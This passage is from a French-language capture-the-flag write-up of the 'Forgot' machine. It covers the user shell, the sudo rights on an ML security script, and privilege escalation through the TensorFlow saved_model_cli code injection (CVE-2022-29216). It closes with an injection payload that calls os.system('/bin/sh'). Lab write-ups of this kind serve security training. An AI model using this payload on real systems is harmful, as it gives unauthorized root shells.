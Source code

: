 ```bash
0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Nov 18 10:51:30 2022 from 10.10.14.40
```
```bash
diego@forgot:~$ whoami
diego
```
---
# User Flag
```bash
diego@forgot:~$ ls
app  bot.py  snap  user.txt
```

<details><summary>User Flag</summary></details>

---
# Privesc

- sudo -l
	```bash
	diego@forgot:~$ sudo -l
	Matching Defaults entries for diego on forgot:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User diego may run the following commands on forgot:
		(ALL) NOPASSWD: /opt/security/ml_security.py

	```

<details close=""><summary>ml_security.py</summary></details>



Nous allons vérifier que python3 contient bien la librairie 'tensorflow' :
```bash
diego@forgot:~$ python3 -c 'import tensorflow as tf; print(tf.__version__)' 2>/dev/null
2.6.3
```
Nous pouvons trouver sur internet une injection de code sur 'saved_model_cli' dans 'TensorFlow':

- [CVE-2022-29216](https://github.com/advisories/GHSA-75c9-jrh4-79mc)

L'exploit trouvé utilise une injection qui va ouvrir un reverse shell, 
nous allons adapter l'injection :

```
test=exec("""\nimport os\nos.system('/bin/sh')""")#<script>alert()</script>
```
